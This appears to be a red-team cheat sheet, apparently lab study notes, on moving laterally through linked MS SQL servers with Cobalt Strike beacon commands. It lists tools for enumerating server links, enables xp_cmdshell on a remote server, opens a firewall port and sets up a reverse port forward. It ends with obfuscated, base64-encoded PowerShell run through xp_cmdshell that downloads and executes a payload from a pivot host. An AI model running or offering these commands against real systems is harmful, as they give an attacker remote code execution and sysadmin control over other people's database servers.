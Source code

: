 ### Lateral Movement

#### Check

```bash
SELECT srvname, srvproduct, rpcout FROM master..sysservers;
```

```bash
beacon> execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:links
```

#### Query

> The use of double and single quotes is important when using OpenQuery.

```sql
SELECT * FROM OPENQUERY("sql-1.cyberbotic.io", 'select @@servername');
```

```bash
beacon> execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:lquery /l:sql-1.cyberbotic.io /c:"select @@servername"
beacon> execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:lquery /l:sql-1.cyberbotic.io /c:"select name,value from sys.configurations WHERE name = ''xp_cmdshell''"
```

```sql
EXEC('sp_configure ''show advanced options'', 1; reconfigure;') AT [sql-1.cyberbotic.io]
EXEC('sp_configure ''xp_cmdshell'', 1; reconfigure;') AT [sql-1.cyberbotic.io]
```

#### Aditional Links

> This output shows that the link from SQL-2 to SQL-1 is configured with a local sa account, and that it has sysadmin privileges on the remote server.  Your level of privilege on the linked server will depend on how the link is configured.  It's worth noting that in this particular case, any user who has public read access to the SQL-2 database instance will inherit sysadmin rights on SQL-1.  We do not need to be sysadmin on SQL-2 first.

```bash
beacon> execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:llinks /l:sql-1.cyberbotic.io
beacon> powershell Get-SQLServerLinkCrawl -Instance "sql-2.dev.cyberbotic.io,1433"
beacon> execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:lwhoami /l:sql-1.cyberbotic.io
```

```bash
beacon> powershell New-NetFirewallRule -DisplayName "8080-In" -Direction Inbound -Protocol TCP -Action Allow -LocalPort 8080
beacon> rportfwd 8080 127.0.0.1 80
```

```sql
SELECT * FROM OPENQUERY("sql-1.cyberbotic.io", 'select @@servername; exec xp_cmdshell ''powershell -w hidden -enc aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AcwBxAGwALQAyAC4AZABlAHYALgBjAHkAYgBlAHIAYgBvAHQAaQBjAC4AaQBvADoAOAAwADgAMAAvAGIAJwApAA==''')
EXEC('xp_cmdshell ''powershell -w hidden -enc aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AcwBxAGwALQAyAC4AZABlAHYALgBjAHkAYgBlAHIAYgBvAHQAaQBjAC4AaQBvADoAOAAwADgAMAAvAGIAJwApAA==''') AT [sql-1.cyberbotic.io]
```
